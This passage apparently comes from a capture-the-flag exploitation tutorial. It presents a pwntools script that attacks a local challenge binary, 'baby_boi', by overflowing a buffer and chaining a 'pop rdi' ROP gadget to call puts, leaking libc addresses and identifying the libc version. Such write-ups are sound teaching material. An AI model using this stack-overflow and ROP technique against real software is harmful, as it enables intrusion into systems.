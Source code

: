 We can write a simple exploit which will just call `puts` twice, to leak the libc addresses for both `puts` and `gets`. If you want a more in depth explanation as to how that works, checkout `https://github.com/guyinatuxedo/nightmare/tree/master/modules/08-bof_dynamic/csawquals17_svc`:

```
import thenight
from pwn import *

# Establish the target
target = process('./baby_boi')
elf = ELF('baby_boi')
#gdb.attach(target)

# Our Rop Gadget to `pop rdi; ret`
popRdi = p64(0x400793)

# plt address of puts
puts = p64(elf.symbols["puts"])

# Parse out some output
print(target.recvuntil("ere I am: "))
target.recvline()

# Form our payload to leak libc address of puts and get by calling the plt address of puts twice, with it's argument being the got address of puts and then gets
payload = b""
payload += b"0"*0x28         
payload += popRdi                    # Pop rdi ; ret
payload += p64(elf.got["puts"])        # Got address for puts
payload += puts                     # Plt address puts
payload += popRdi                    # Pop rdi ; ret
payload += p64(elf.got["gets"])     # Got address for get
payload += puts                     # Plt address puts

# Send the payload
target.sendline(payload)

# Scan in the libc infoleaks
leak0 = target.recvline().strip(b"\n")
putsLibc = u64(leak0 + b"\x00"*(8-len(leak0)))

leak1 = target.recvline().strip(b"\n")
getsLibc = u64(leak1 + b"\x00"*(8-len(leak1)))

print("puts libc: %s" % hex(putsLibc))
print("gets libc: %s" % hex(getsLibc))

# Pass the leaks to The Night to figure out
thenight.find_libc_version("puts", putsLibc, "gets", getsLibc)

target.interactive()
```
